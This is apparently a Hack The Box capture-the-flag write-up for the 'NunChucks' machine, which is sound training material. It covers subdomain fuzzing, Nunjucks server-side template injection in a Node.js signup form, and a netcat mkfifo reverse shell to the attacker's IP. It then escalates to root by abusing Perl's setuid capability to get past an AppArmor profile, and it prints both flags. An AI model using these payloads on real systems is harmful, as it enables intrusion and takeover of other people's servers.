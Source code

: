 ```yaml
---
title: "NunChucks from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# NunChucks from HTB
`nmap` gave this:
```bash
PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp    open     http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp   open     ssl/http nginx 1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| tls-nextprotoneg:
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
```
Add this to `/etc/hosts`
```
10.10.11.122 nunchucks.htb
```
Access the site and try to `sign up` but it's closed so let's try to discover some other `subdomains`
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.nunchucks.htb" -u https://nunchucks.htb/ -fs 30589

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://nunchucks.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.nunchucks.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 30589
________________________________________________

store                   [Status: 200, Size: 4029, Words: 1053, Lines: 102
```
Add this to `/etc/hosts`
```
10.10.11.122 store.nunchucks.htb
```
Then access that subdomain
With `wappalyzer`we get that site runs on
```
Programming languages
  Node.js
```
So maybe it's vulnerable to `ssti`
Let's try first payload in `your email here...`
```python
{{7*7}}@htb.com
```
We get this
```
##### You will receive updates on the following email address: 49@htb.com.
```
so it's vulnerable to `ssti`
So let's search for `ssti injection nodejs`and let's use `nunjucks`
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks
```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}
```
We can't type this normally so lets use `burpsuite + intercept`
And we get this:
```
"response":"You will receive updates on the following email address: lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false\nrtkit:x:113:117:RealtimeKit,,,:/proc:/usr/sbin/nologin\ndnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin\ngeoclue:x:115:120::/var/lib/geoclue:/usr/sbin/nologin\navahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin\ncups-pk-helper:x:117:123:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin\nsaned:x:118:124::/var/lib/saned:/usr/sbin/nologin\ncolord:x:119:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin\npulse:x:120:126:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin\nmysql:x:121:128:MySQL Server,,,:/nonexistent:/bin/false\n@htb.com."
```
This is `/etc/passwd`file now lets get reverse shell
```
{
  "email": "{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f')\")()}}@htb.com"
}
```
This gave me connection on `netcat`
***
User Flag is: 17949c8542ff2ef9dbfb2123ed2176c2
***
Then try to get `ssh`connection by running
```
$ ssh-keygen
```
save `id_rsa` on your machine and `chmod 600 id_rsa`
copy `machines id_rsa.pub`to `~/.ssh/authorized_keys`
then connect to `ssh`
```
ssh -i id_rsa david@10.10.11.122
```
we are in.
Enumerating the filesystem we see that Perl has setuid capabilities set.
```bash
david@nunchucks:~$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
in https://gtfobins.github.io/gtfobins/perl/#capabilities we can see what we can do with `perl`
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
cat: /etc/shadow: Permission denied
david@nunchucks:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
```
We can't read `root flag`
```bash
david@nunchucks:/etc/apparmor.d$ cat usr.bin.perl
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```
Then try to find other `.pl`files
```bash
david@nunchucks:/opt$ ls
backup.pl  web_backups
david@nunchucks:/opt$ cat backup.pl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid);
POSIX::setuid(0);

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```
Checking the `backup.pl` we see that it has the `setuid` applied to the script, but we cannot write or make any changes to the execution of the script.
IDK how and why but create this script and execute it which will make you root
```bash
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```
***
Root Flag is: 806a8e65c673b5079524748e734c338e
***
![](/assets/images/Screenshot from 2024-08-21 17-49-16.png)
